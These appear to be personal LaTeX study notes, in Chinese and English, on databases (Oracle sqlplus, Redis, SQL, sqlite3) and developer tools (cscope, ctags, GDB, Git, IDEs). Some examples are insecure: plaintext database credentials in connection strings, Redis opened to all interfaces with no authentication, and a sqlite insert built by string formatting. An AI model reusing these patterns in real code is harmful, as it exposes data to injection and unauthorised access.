\subsection{Lucene/Solr}
Lucene是Apache软件基金会4 jakarta项目组的一个子项目,这是一个开放源代码的全文检索引擎工具包,就是说它不是一个完整的全文检索引擎,而是一个全文检索引擎的架构。不过大多数人并不认同Lucene是一个数据库,因为大多数人只是用它来检索大量的文本块,不过它的确采用了与其他NoSQL数据存储相似的模型。如果说查询并不是仅仅局限于精确的匹配,而是寻找出那些出现在块中的字或者字段的话,毫无疑问,Lucene/Solr是最好的查询方式。















\section{Oracle databses}


\subsection{sqlplus instant client installation}

SQLPlus is an interactive and batch query tool that is installed with every Oracle Database installation.
 It has a command-line user interface, a Windows Graphical User Interface (GUI) and the iSQLPlus web-based user interface.

There is also the SQLPlus Instant Client which is a stand-alone command-line interface available on platforms that support the OCI Instant Client. 
SQLPlus Instant Client connects to any available Oracle database, but does not require its own Oracle database installation.

Two RPM installers are required, which can be downloaded from official website and installed with \verb|rpm -ivq| or \verb|yum| command:
\begin{verbatim}
    yum install oracle-instantclient12.2-basic-12.2.0.1.0-1.x86_64.rpm  
    yum install oracle-instantclient12.2-sqlplus-12.2.0.1.0-1.x86_64.rpm 
\end{verbatim}

After installation, some setting is demanded:

\begin{verbatim}
    export LD_LIBRARY_PATH=/usr/lib/oracle/12.2/client64/lib:$LD_LIBRARY_PATH
    export PATH=/usr/lib/oracle/12.2/client64/bin:$PATH
\end{verbatim}

A sqlplus binary is invoked, with USER, PASSWORD, HOST, PORT and DATABASE specified.
\begin{verbatim}
    sqlplus "username/mypassword@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=10.98.33.112)(Port=1521))(CONNECT_DATA=(SID=mydb)))"
    sqlplus "icpuserrt/icpuserrt@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=10.98.33.112)(Port=1521))(CONNECT_DATA=(SID=orcl)))"
\end{verbatim}



To check system encoding:
\begin{verbatim}
SQL> select userenv('language') from dual;

USERENV('LANGUAGE')
----------------------------------------------------
AMERICAN_AMERICA.ZHS16GBK
\end{verbatim}

For this encoding we need to configure our environment in shell and terminal emulator:
\begin{verbatim}
export NLS_LANG="AMERICAN_AMERICA.ZHS16GBK"
\end{verbatim}

Do not forget the terminal emulator.


\subsection{Oracle SQL}

A query statement listing all tables is like:
\begin{verbatim}
    select table_name from all_tables;
\end{verbatim}

A common select-with-limit is:
\begin{verbatim}
    select id, dwmc from yhgl_badwxx where shengid=510000 and rownum < 4;
\end{verbatim}

%!Mode:: "TeX:UTF-8"
\section{Redis}

\subsection{Installation and Start}

To install on CentOS 6:
\begin{verbatim}
yum install epel-release
yum install redis
service redis start
\end{verbatim}

To start a redis client connecting to local server:
\begin{verbatim}
redis-cli
redis-cli -h 172.30.35.1 
\end{verbatim}

To allow remote access, modify redis.conf:
\begin{verbatim}
bind 0.0.0.0
\end{verbatim}

Before connecting to a remote database, we can first try to ping it:
\begin{verbatim}
redis-cli -h 172.30.35.1 ping
\end{verbatim}

Simple manipulation:
\begin{verbatim}
redis 127.0.0.1:6379> set age 22
OK
redis 127.0.0.1:6379> incr age
(integer) 23
redis 127.0.0.1:6379> get age
"24"
redis 127.0.0.1:6379> set name 'ka'
OK
redis 127.0.0.1:6379> get name
"ka"
\end{verbatim}

We can delete a key by using 
\begin{verbatim}
DEL keynname
\end{verbatim}


To list all keys matching a wildcard, type like this:
\begin{verbatim}
KEYS *
\end{verbatim}

\subsection{Programming Redis with Python}
Python API is provided with the \textbf{redis} package.

\begin{verbatim}
import redis
r = redis.Redis(host='localhost', port=6379, db=0)
x = r.get('age')
r.set('foo', 'bar')
y = r.get('foo')
\end{verbatim}










%!Mode:: "TeX:UTF-8"
\section{SQL}
SQL是介于关系代数和关系演算之间的结构化查询语言,已经成为关系数据库的标准语言。


SQL is a set-based, declarative query language, not an imperative language like C or BASIC. However, there are extensions to Standard SQL which add procedural programming language functionality, such as control-of-flow constructs. SQL/PSM (SQL/Persistent Stored Modules) is an ISO standard mainly defining an extension of SQL with a procedural language for use in stored procedures. However, the major SQL vendors have historically included their own proprietary procedural extensions. 

SQL包含3个部分:
\begin{itemize}
    \item 
“数据定义语言”(DDL : Data Definition Language)是SQL语言集中,负责数据结构定义与数据库对象定义的语言,由CREATE、ALTER与DROP三个语法所组成,最早是由 Codasyl (Conference on Data Systems Languages) 数据模型开始,现在被纳入 SQL 指令中作为其中一个子集。
    \item 
“数据操纵语言”(DML : Data Manipulation Language)负责对数据库对象运行数据访问工作的指令集,以INSERT、UPDATE、DELETE三种指令为核心,分别代表插入、更新与删除。Performing read-only queries of data is sometimes also considered a component of DML.有很多开发人员都把加上SQL的SELECT语句的四大指令以“CRUD”来称呼。SELECT \ldots INTO是非标准的持久化操作。
    \item 
“数据控制语言”(DCL : Data Control Language)是一种可对数据访问权进行控制的指令,它可以控制特定用户帐户对数据表、查看表、预存程序、用户自定义函数等数据库对象的控制权。由 GRANT 和 REVOKE 两个指令组成。
\end{itemize}

\begin{figure}[htpb]
    \begin{center}
        
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/SqlANATOMY.png}
    \end{center}
    \caption{SQL language elements}
    \label{fig:SQL lan elem}
\end{figure}

某些数据库强制要求语句后有分号。

\subsection{真值逻辑}

空值(关键字NULL),关系数据库中对数据属性未知或缺失的一种标识。数据库表主键的取值不能为空值。在SQL的Where条件式去判断字段是否为Null时,where id = null 是无法正确执行的,必须写成 where id is null, 其否定条件是is not null。

三值逻辑:true, false, unknown。false AND unknown为false,true OR unknown为true。与null比较运算的结果是unknown.

expr1 IS NOT DISTINCT FROM expr2 表示二者的值相同或二者都为NULL。其否定为IS DISTINCT FROM。


\subsection{ANSI SQL数据类型}
\begin{itemize}
   \item 
 CHARACTER(n) or CHAR(n): fixed-width n-character string, padded with spaces as needed
   \item 
CHARACTER VARYING(n) or VARCHAR(n): variable-width string with a maximum size of n characters
   \item 
NATIONAL CHARACTER(n) or NCHAR(n): fixed width string supporting an international character set
   \item 
NATIONAL CHARACTER VARYING(n) or NVARCHAR(n): variable-width NCHAR string
   \item 
BIT(n): an array of n bits
   \item 
BIT VARYING(n): an array of up to n bits
   \item 
INTEGER and SMALLINT
   \item 
FLOAT, REAL and DOUBLE PRECISION
   \item 
NUMERIC(precision, scale) or DECIMAL(precision, scale),precision为有效数字位数,scale为小数位数
   \item 
DATE: for date values (e.g. 2011-05-03)
   \item 
TIME: for time values (e.g. 15:51:36). The granularity of the time value is usually a tick (100 nanoseconds).
   \item 
TIME WITH TIME ZONE or TIMETZ: the same as TIME, but including details about the time zone in question.
   \item 
TIMESTAMP: This is a DATE and a TIME put together in one variable (e.g. 2011-05-03 15:51:36).
   \item 
TIMESTAMP WITH TIME ZONE or TIMESTAMPTZ: the same as TIMESTAMP, but including details about the time zone in question.
\end{itemize}





\subsection{关键词}
关键词\textbf{DISTINCT}用于返回唯一不同的值。
\begin{verbatim}
SELECT DISTINCT 列名称 FROM 表名称
\end{verbatim}


\textbf{IN}操作符允许我们 WHERE子句中规定多个值。

\begin{verbatim}
SELECT column_name(s)
FROM table_name
WHERE column_name IN (value1,value2,...)
\end{verbatim}

操作符 \textbf{BETWEEN ... AND} 会选取介于两个值之间的数据范围。这些值可以是数值、文本或者日期。然而区间的开闭性因厂商而异。

\begin{verbatim}
SELECT column_name(s)
FROM table_name
WHERE column_name
BETWEEN value1 AND value2
\end{verbatim}

通过使用AS,可以为列名称和表名称指定别名(Alias)。

\begin{verbatim}
SELECT column_name(s)
FROM table_name
AS alias_name
\end{verbatim}

TOP 子句用于规定要返回的记录的数目。并非所有的数据库系统都支持 TOP 子句。
SQL Server 的语法: 
\begin{verbatim}
SELECT TOP number|percent column_name(s)
FROM table_name
\end{verbatim}

MySQL 语法:
\begin{verbatim}
SELECT column_name(s)
FROM table_name
LIMIT number
\end{verbatim}

Oracle 语法:
\begin{verbatim}
SELECT column_name(s)
FROM table_name
WHERE ROWNUM <= number
\end{verbatim}


\subsection{举例}

关系定义、删除与修改:
\begin{lstlisting}[language=SQL]
CREATE TABLE My_table(
 my_field1 INT,
 my_field2 VARCHAR(50),
 my_field3 DATE NOT NULL,
 PRIMARY KEY (my_field1, my_field2)
);

CREATE TABLE employees (
    id            INTEGER      PRIMARY KEY,
    first_name    VARCHAR(50)  NULL,
    last_name     VARCHAR(75)  NOT NULL,
    dateofbirth   DATE         NULL
);

CREATE TABLE MovieStar (
  name CHAR(30),
  address VARCHAR(255),
  gender CHAR(1),
  birthdate DATE
);

DROP TABLE My_table;

ALTER TABLE MovieStar ADD phone CHAR(3) NOT NULL;
ALTER TABLE MovieStar DROP birthdate;
\end{lstlisting}

索引创建与删除:
\begin{lstlisting}[language=SQL]
CREATE INDEX YearIndex ON Movie(year);
CREATE INDEX keyIndex ON Movie(title,year);
DROP INDEX YearIndex;
\end{lstlisting}

视图创建与删除:
\begin{lstlisting}[language=SQL]
CREATE VIEW ParamountMovie AS
  SELECT title, year
  FROM Movie
  WHERE studioName = 'Paramount';
  
CREATE VIEW MovieProd(movieTitle, prodName) AS
  SELECT title, year
  FROM Movie, MovieExe
  WHERE producerC# = cert#;
  
DROP VIEW ParamountMovie;
\end{lstlisting}

数据更新:
\begin{lstlisting}[language=SQL]
INSERT INTO My_table
 (field1, field2, field3)
 VALUES
 ('test', 'N', NULL);

UPDATE My_table
 SET field1 = 'updated value'
 WHERE field2 = 'N';

DELETE FROM My_table
 WHERE field2 = 'N';
 
TRUNCATE TABLE My_table;--清零
\end{lstlisting}

权限操作:
\begin{lstlisting}[language=SQL]
GRANT SELECT, UPDATE
 ON My_table
 TO some_user, another_user;
 
REVOKE SELECT, UPDATE
 ON My_table
 FROM some_user, another_user;
\end{lstlisting}

数据查询:
\begin{lstlisting}[language=SQL]
SELECT *
 FROM Book
 WHERE price > 100.00
 ORDER BY title;

 SELECT * FROM Persons
WHERE City LIKE 'N%'
--从"Persons" 表中选取居住在以 "N" 开始的城市里的人
--提示:"%" 可用于定义通配符(模式中缺少的字母)。


SELECT Book.title AS Title,
 COUNT(*) AS Authors
 FROM Book JOIN Book_author
 ON Book.isbn = Book_author.isbn
 GROUP BY Book.title;

SELECT * FROM Persons
WHERE LastName IN ('Adams','Carter')

SELECT * FROM Persons
WHERE LastName
BETWEEN 'Adams' AND 'Carter'

SELECT title,
 COUNT(*) AS Authors
 FROM Book NATURAL JOIN Book_author
 GROUP BY title;

SELECT isbn,
 title,
 price,
 price * 0.06 AS sales_tax
 FROM Book
 WHERE price > 100.00
 ORDER BY title;

SELECT isbn, title, price
 FROM Book
 WHERE price < (SELECT AVG(price) FROM Book)
 ORDER BY title;

SELECT Customer,SUM(OrderPrice) FROM Orders
GROUP BY Customer
-- 在 SQL 中增加 HAVING子句原因是,WHERE 关键字无法与合计函数一起使用。
HAVING SUM(OrderPrice)<2000

SELECT CASE WHEN i IS NULL THEN 'Null Result'  
-- This will be returned when i is NULL
            WHEN     i = 0 THEN 'Zero'         
-- This will be returned when i = 0
            WHEN     i = 1 THEN 'One'          
-- This will be returned when i = 1
            END
FROM t;

\end{lstlisting}


事务:
\begin{lstlisting}[language=SQL]
START TRANSACTION;
 UPDATE Account SET amount=amount-200 WHERE account_number=1234;
 UPDATE Account SET amount=amount+200 WHERE account_number=2345;
 
IF ERRORS=0 COMMIT;
IF ERRORS<>0 ROLLBACK;

CREATE TABLE tbl_1(id INT);
 INSERT INTO tbl_1(id) VALUES(1);
 INSERT INTO tbl_1(id) VALUES(2);
COMMIT;
 UPDATE tbl_1 SET id=200 WHERE id=1;
SAVEPOINT id_1upd;
 UPDATE tbl_1 SET id=1000 WHERE id=2;
ROLLBACK TO id_1upd;
 SELECT id FROM tbl_1;
\end{lstlisting}


\subsection{SQL 分页查询}

\begin{lstlisting}[language=SQL]
-- SQL SERVER
SELECT TOP 页大小 * FROM table1 WHERE id NOT IN ( SELECT TOP 页大小*(页数-1) id FROM table1 ORDER BY id ) ORDER BY id
--MYSQL
SELECT * FROM TT LIMIT startline, linecount
\end{lstlisting}
















%!Mode:: "TeX:UTF-8"
\section{sqlite3用法}
用法:
\begin{verbatim}
sqlite3 [options] [databasefile] [SQL]
\end{verbatim}

举例:
\begin{verbatim}
sqlite3 -line mydata.db 'select * from memos where priority > 20;'
sqlite3 bankinfo.db 'select * from BAcounts'
\end{verbatim}

\subsection{basic navigation}
\begin{verbatim}
.help
.schema ?TABLE?: Show the CREATE statements.
databases: List names and files of attached databases
.tables: Shows all tables
\end{verbatim}

\subsection{backup and restore}
\begin{verbatim}
.backup ?DB? FILE
.restore ?DB? FILE 
\end{verbatim}

\subsection{SQL脚本}
执行SQL脚本
\begin{verbatim}
.read filename
\end{verbatim}

输出SQL脚本
\begin{verbatim}
.output filename 
.dump
\end{verbatim}

\subsection{时间与日期}

\begin{verbatim}
select date('now')
\end{verbatim}

Python接口示例

\begin{lstlisting}[language=Python]
  def add_due_field(self):
        conn = sqlite3.connect(self.dbname)
        c = conn.cursor()
        c.execute('''DROP TABLE Fix2''')
        c.execute('''CREATE TABLE Fix2 
        		(start_date text, duration integer, 
        		end_date text, amount real, rate real, 
        		end_amount real, bank text)''')
        for record in self.items:
            start_date = datetime.strptime(
            		record[start_date_field], '%Y-%m-%d')
            start_date = start_date.date()
            duration_months = record[duration_field]
            principal = record[amount_field]
            rate = record[rate_field]
            bank = record[bank_field]
            end_date = TermDepositManager.__get_due_date__
            		(start_date, duration_months)
            due_value = TermDepositManager.__get_due_value__
            		(principal, duration_months, rate/100.0) 
            detail_record = (start_date, 
            		duration_months, end_date, principal, rate, due_value, bank)
            statement = "INSERT INTO Fix2 VALUES ('%s', %d, '%s', %f, %f, %.2f, '%s')" % detail_record; 
            c.execute(statement)

        conn.commit()
        conn.close()
\end{lstlisting}














%!Mode:: "TeX:UTF-8"
\chapter{编程工具}

%!Mode:: "TeX:UTF-8"
\section{Code Review工具}

\begin{verbatim}
svn diff -r 18153:18168 > a.diff
rbt post --server=http://192.168.110.4 --diff-filename=a.diff
\end{verbatim}

%!Mode:: "TeX:UTF-8"
\section{Cscope用法要略}

生成数据库:cscope -Rbq 
R表示递归,b表示build后不进入cscope自带的查询界面,q表示quick,加速日后的查询。

在vim下使用时应添加数据库,cs show命令显示当前已经添加的数据库,执行cs add cscope.out添加当前目录下cscope.out文件作为数据库。可以通过修改.vimrc来自动添加当前目录和父目录下的数据库。

\begin{verbatim}
"for cscope
if has("cscope")
        set csprg=/usr/bin/cscope
        set csto=0
        set cst 
        set nocsverb
        " add any database in current directory
        if filereadable("cscope.out")
                cs add cscope.out
        elseif filereadable("../cscope.out")
                cs add ../cscope.out
        elseif filereadable("../../cscope.out")
                cs add ../../cscope.out
                " else add database pointed to by environment
        elseif $CSCOPE_DB != ""
                cs add $CSCOPE_DB
        endif
        set csverb
endif

\end{verbatim}

在vim下键入:cs可以查看相关操作提示。具体用法参考见:h cscope或cscope的man页。

\begin{verbatim}
 USAGE   :cs find {querytype} {name}

            {querytype} corresponds to the actual cscope line
            interface numbers as well as default nvi commands:

                0 or s: Find this C symbol
                1 or g: Find this definition
                2 or d: Find functions called by this function
                3 or c: Find functions calling this function
                4 or t: Find this text string
                6 or e: Find this egrep pattern
                7 or f: Find this file
                8 or i: Find files #including this file

\end{verbatim}

可以在vim中添加一些键映射:

\begin{verbatim}
 nmap <F2>s :cs find s <C-R>=expand("<cword>")<CR><CR>
nmap <F2>g :cs find g <C-R>=expand("<cword>")<CR><CR>
nmap <F2>c :cs find c <C-R>=expand("<cword>")<CR><CR>
nmap <F2>t :cs find t <C-R>=expand("<cword>")<CR><CR>
nmap <F2>e :cs find e <C-R>=expand("<cword>")<CR><CR>
nmap <F2>f :cs find f <C-R>=expand("<cfile>")<CR><CR>
nmap <F2>i :cs find i ^<C-R>=expand("<cfile>")<CR>$<CR>
nmap <F2>d :cs find d <C-R>=expand("<cword>")<CR><CR>

nmap <F3>s :scs find s <C-R>=expand("<cword>")<CR><CR>
nmap <F3>g :scs find g <C-R>=expand("<cword>")<CR><CR>
nmap <F3>c :scs find c <C-R>=expand("<cword>")<CR><CR>
nmap <F3>t :scs find t <C-R>=expand("<cword>")<CR><CR>
nmap <F3>e :scs find e <C-R>=expand("<cword>")<CR><CR>
nmap <F3>f :scs find f <C-R>=expand("<cfile>")<CR><CR>
nmap <F3>i :scs find i ^<C-R>=expand("<cfile>")<CR>$<CR>
nmap <F3>d :scs find d <C-R>=expand("<cword>")<CR><CR>

\end{verbatim}










%!Mode:: "TeX:UTF-8"

\section{Ctags关键用法}

安装:
\begin{verbatim}
brew install ctags
alias ctags="`brew --prefix`/bin/ctags"
\end{verbatim}

/etc/paths /usr/local/bin提到/usr/bin前面,为了使得ctags访问exuberant ctags而不是自带的ctags


创建元数据:
\begin{verbatim}
  ctags -R
\end{verbatim}
  对于C++,结合omnicppcomplete插件,有:
\begin{verbatim}
   ctags -R --c++-kinds=+p --fields=+iaS --extra=+q
\end{verbatim}
ctags也支持Python语言:
\begin{verbatim}
ctags -R
ctags -R --language-force=Python --Python-kinds=cfmvi --extra=+q
\end{verbatim}

为vim配置tags搜索路径:
在.vimrc中添加设置。如使用绝对路径:
\begin{verbatim}
 set tags=/home/xxx/myproject/tags
\end{verbatim}

如果设置成自动搜索上级目录的tags:
\begin{verbatim}
set tags=./tags;
\end{verbatim}
注意第一行的分号表示递归向上搜索,点斜杠表示当前文件所在目录而非当前目录。

\begin{verbatim}
:set tags=./tags,./../tags,./*/tags
\end{verbatim}
使用当前目录下的tags文件, 上一级目录下
的tags文件, 以及当前目录下所有层级的子目录下的tags文件.


\begin{verbatim}
:set tags=~/proj/**/tags
\end{verbatim}
一种深度搜索目录的形式

查找:
\begin{verbatim}
vim -t tag名
:ta tag名
:tselect tag名 同名tag选择

\end{verbatim}

跳转:
\begin{verbatim}
Ctrl+]  跳转至函数定义
ctrl+O 返回
ctrl+I 前进
Ctrl+T 返回(与ctrl+])对应
:tp  同名tag,跳转到前一个
:tn  同名tag,跳转到下一个
:tfirst, :tlast
\end{verbatim}


裂屏显示:
\begin{verbatim}
Ctrl-W ] 裂屏跳转至函数定义
[vertical] stag name 裂屏查找并跳转
\end{verbatim}



%!Mode:: "TeX:UTF-8"

\section{文件分析工具}

\subsection{统计代码行数}
例如,统计.h文件包含的非空行数:
\begin{verbatim}
  find . -name "*.h"|xargs cat|grep -v ^$|wc -l 
\end{verbatim}
如果不需要空行过滤功能,就不需要使用cat和grep,可用这样写:
\begin{verbatim}
   wc -l `find . -name "*.h"`|tail -n1
\end{verbatim}
匹配多种文件类型:
\begin{verbatim}
find . -name "*.c" -o -name "*.h"|xargs wc -l
\end{verbatim}
这条命令统计了.h和.c文件中包含的行数。注意如果没有xargs,就变成了统计文件数目。

\subsection{文本文件分析}
diff用于逐行比较。其他工具包括awk,sed等。

对于源代码,有indent工具。


\subsection{十六进制读写}

od, hexdump等工具将文件按照8进制、16进制、ASCII等形式打印出来。hexdiff同时打开两个文件,进行比较。

hexer工具能够以vi风格的界面编辑数据文件,而ghex则基于Gnome窗口系统。其他工具大多基于curses家族,包括hexedit, lfhex, dhex等。

vim使用\verb$:%!xxd$变为十六进制显示模式,再追加一个\verb$-r$命令则复原。

\subsection{目标文件分析}

strings:寻找文件中的字符串。可用于分析可执行文件。

size:显示目标文件中各段的大小(text,data,bss)。

readelf显示ELF文件各种信息。

nm或objdump -t:打印目标文件中的符号表。

objdump -h 给出文件中各段的头部信息。

objdump -D反汇编,-S将反汇编程序同源代码对照显示。










%!Mode:: "TeX:UTF-8"
\section{GDB调试器使用要略}


如果想对elfname程序进行调试,用-g选项编译,调用gdb的方式如:
\verb+gdb elfname+或\verb+gdb --args elfname arg1 arg2+\ldots
也可以只输入gdb,在交互界面上设置:
\begin{verbatim}
  file elfname
  set args argv1 argv2
\end{verbatim}


基本的用法,可以在进入gdb后执行help,具体的帮助信息,如关于断点的用法,输入help b。
退出gdb:quit或q。

每次执行\textbf{run},会从头开始运行程序。run简称\textbf{r}。

\subsection{查看源码}
\textbf{list简称l}。list 显示当前位置10行代码。

l funcname:显示某函数附近的10行代码。

l lineno: 显示第lineno行及其上下文10行代码。


\subsection{断点}
首先需要明确,如果在第18行设置断点,指的是在第18行执行之前中止,而非之后。

设置断点:breakpoint命令,简称\textbf{b},参数为[文件名:]行号或函数名,可以用list命令辅助b命令的参数选择。
如无参数,为在当前行设置断点。

b 45 if varname > 10: 在第45行之前设置条件断点,如果变量varname大于10则中止。

delete 2或del 2或d 2会删除2号断点, disable 2会冻结2号断点,enable 2会激活2号断点。

i b: 查看当前所有断点的状态。

遇到断点时执行cont或\textbf{c}时程序继续执行直至结束或受阻。

\subsection{步进}
next命令简称\textbf{n},用于执行下一条语句。执行完后显示的代码行为尚未执行的下一条语句。

n 5可以前进5行。

Return键用于重复执行上一条命令。

step命令简称\textbf{s},与next的区别是会进入函数体。

\subsection{查看上下文信息}

backtrace, 简称\textbf{bt},查看堆栈层次信息。最深层的frame号为零,main为最大的frame号。

frame简称\textbf{f}。\textbf{f frameno}会跳到frameno指定的frame层次。

info简称\textbf{i}:
\begin{description}
    \item[i line]  显示当前行号。
    \item[i args]  显示当前函数参数。在main函数中则为程序参数。
    \item[i source] 查看当前源文件信息。info sources查看所有源文件信息。
    \item[i locals]  显示当前函数局部变量。
    \item[i variables]  显示全局和静态变量。
    \item[i threads]  显示线程信息。thread ID命令跳转到ID所示的线程上。
    \item[i macros]  显示宏定义。i macro macroname某个宏定义。必须使用 -gdwarf-2 -g3编译选项才能看到宏定义。
\end{description}



\subsection{查看指定变量}
print varname 查看变量。print简称\textbf{p}。

例如,对于char c[5] = {97,98,99,100,101},
执行p c[2]显示 99 'c';p /x c[2]会显示为16进制0x63。
print /x c[2]@3会显示c[2]开始的3个连续变量{0x63, 0x64, 0x65}。

display varname 添加自动显示变量。
display添加的变量会在每次程序中止时再次显示。

\subsection{Patching:就地修补}
set variable varname = varvalue命令用于就地修改变量的值。
那么,下面的命令在断点处修改变量的值,下次run时生效。
\begin{verbatim}
commands 2
>set variable n = n+1
>cont
>end
\end{verbatim}


\subsection{观察值}
watch varname命令:当程序执行时发现varname被修改时就中止;
rwatch varname:当varname被读时中止;而awatch是在varname被读或者写时都中止。

注意watch只能观察当前堆栈frame的变量。所以一般要配合断点来使用。








































\section{Git}

\begin{figure}[ht]
  \begin{center}
  
\includegraphics[keepaspectratio,width=0.9\textwidth]{Pictures/git-cheatsheet1.png}
  \caption{Git CheetSheet from
    \url{https://www.quora.com/What-is-the-best-Git-cheat-sheet}}
  \label{fig:HardwareStructure}
  \end{center}
\end{figure}

\subsection{Setting up a repository}

\begin{verbatim}
git init --bare /path/to/bare/repo.git
git clone /path/to/bare/repo.git /path/to/work
echo 123 > afile.txt
git add .
git config --local user.name adelphus
git config --local user.email adelphus@example.com
git commit -m "added afile"
git push origin master
\end{verbatim}

\subsection{Cleansing and Space Savings}

\begin{verbatim}
  git clean -d -f -i # interactive cleaning 
  git prune --progress  # delete objects w/o references
  git gc --auto
  git gc --aggressive  
  git remote prune origin # delete remotely removed branches 
\end{verbatim}

A more complete way is to abandon all commit histories and just start over fresh:
\begin{verbatim}
  rm -rf .git
  git init
  git add .
  git commit -m "Initial commit"
  -- push to the github remote repos ensuring you overwrite history
  git remote add origin git@github.com:<YOUR ACCOUNT>/<YOUR REPOS>.git
  git push -u --force origin master
\end{verbatim}


%!Mode:: "TeX:UTF-8"

\section{IDE选用}



Python IDE包括PyCharm,WingIDE,PyDev(Eclipse),Komodo IDE,Eric等。有人尤其推荐PyCharm,WingIDE和PyDev。

Eric是基于Qt的IDE,在Debian系Linux发行版上依赖于包python-qscintilla2。

IDLE常常是python安装是自带的开发工具。

在Linux上选择C/C++的IDE,有CodeBlocks,Eclipse CDT, Greany,MonoDevelop,Anjuta,Komodo Edit,NetBeans,KDevelop, CodeLite等。

源代码阅读器包括:Visual Studio Express edition(免费),Source Navigator,Understand等。

我有跨平台工作需要,决定使用Vim,QtCreator和Eclipse。如只在Windows上阅读代码,使用Source Insight。Vim的优势在于极强的定制型,以为IDE的定制性毕竟有限,有些设计可能让人觉得别扭。


\subsection{用QtCreator编辑Python脚本}
QtCreator可以编辑Python,进行语法高亮,但缺乏自动补全等高级功能。也可通过配置“外部工具(工具-选项-环境)”来调用系统中安装的python解释器以运行Python脚本。
配置方式如下:
1. 添加Category并在该Category上添加Tool
2. 配置这个Tool。设置Python解释器路径、参数(\verb|%{CurrentDocument:FilePath}|)、工作目录(\verb|%{CurrentDocument:Path}|)、环境变量(\verb|QT_LOGGING_TO_CONSOLE=1|)。

\subsection{QtCreator和Source Insight比较}
使用QtCreator可以开启vi模式,对于熟悉vim的人很顺手。点击一个标识符号,自动对该标识符的示例加以高亮。

QtCreator的缺点之一在于Find Usages这个Context功能的局限性,它比不上SI的Jump to Caller命令:似乎只能检索已经打开的文件,而不是项目中的全部文件(这可能只是个bug 而非设计);无法区分不同类型的同名成员变量。有时为了查找符合所有的occurrence,须使用字符串查找功能。这毕竟不够高效。


Si不如QtCreator之处一是不免费,二是浏览代码目录不方便,三是匹配括号不方便(快捷键\verb$Ctrl-Shift-]$),四是没有代码折叠。


\subsection{条件编译编辑}
某些代码因为条件编译等原因变成了inactive code。
例如,如果程序中没有定义名为NEVER的宏,则QtCreator认为\verb$#ifdef NEVER$ 和 \verb$ #endif $ 之间的代码为不活跃代码,将其背景设置为灰色,避免对读者的干扰。
然而SI确不作这种假定,而是允许用户手工设置这段代码是否为不活跃代码。
两种工具的设计各有有缺。
因为宏定义不仅仅仅是通过源代码给出,也可在编译器选项中给出,QtCreator做出的假定不妥。
解决办法是,如果需要,可主动修改代码,定义NEVER这个宏,然后保存本文件。




\subsection{Vim搭建Python IDE}
Vim插件pythonComplete可用于Python代码自动补全。对于VIM 7.3以上版本,这个插件是自带的。需要在.vimrc上添加如下配置:
\begin{verbatim}
filetype plugin on
autocmd FileType python set omnifunc=pythoncomplete#Complete
\end{verbatim}

\subsection{非vi编辑器的vi风格模式}

Visual Studio with ViEmu
NetBeans with jVi

Sublime Text has a vintage mode for vi style editing.

Check out excellent Vrapper plugin for Eclipse.

It seems the eclim plugin can help you embed the real GVim into Eclipse.

Qt Creator has a "vim mode" for editing, but it currently lacks some abilities; as well, I feel handicapped without the settings I have in my .vimrc.

There is also freeware Vimplugin for Eclipse — it embeds Vim into Eclipse, but you lose all navigation and code-completion functionality that Eclipse provides, so its usefulness is disputable.





















%!Mode:: "TeX:UTF-8"
\section{Indent代码排版工具}

欲实现Cavium风格的代码,有
\begin{verbatim}
indent *.c -bli0 -i4 -npsl -cli4 -npcs
\end{verbatim}

其中,bli表示brace indentation, i选项表示indentation, npsl(dont-break-procedure-type)表示函数返回类型需与函数名称在同一行;cli表示case-label-indentation, 表示case语言缩进的距离。npcs表示no-sapce-after-function-call-names,函数调用时函数名称后无空格。

关于if等语句之后的\verb+{+括号是否在换行,有两种方式:br(braces-on-if-line)和bl(braces-after-if-line)。对于br选项,一般同时指定ce选项(cuddle-else)或nce选项,前者让\verb+}+和else在同一行。对于bl选项,一般同时指定bli选项,表示\verb+{+缩进距离,如不指定,GNU indent默认使用GNU风格,即缩进2个空格。类似于if语句,函数定义和struct定义也存在大括号是否在同一行的问题。对于函数,可以指定brf或blf(默认);对于struct,可以指定brs和blf。

\section{Jupter Notebook}

\subsection{Change Jupyter Notebook startup folder (Windows)}
Copy the Jupyter Notebook launcher from the menu to the desktop.
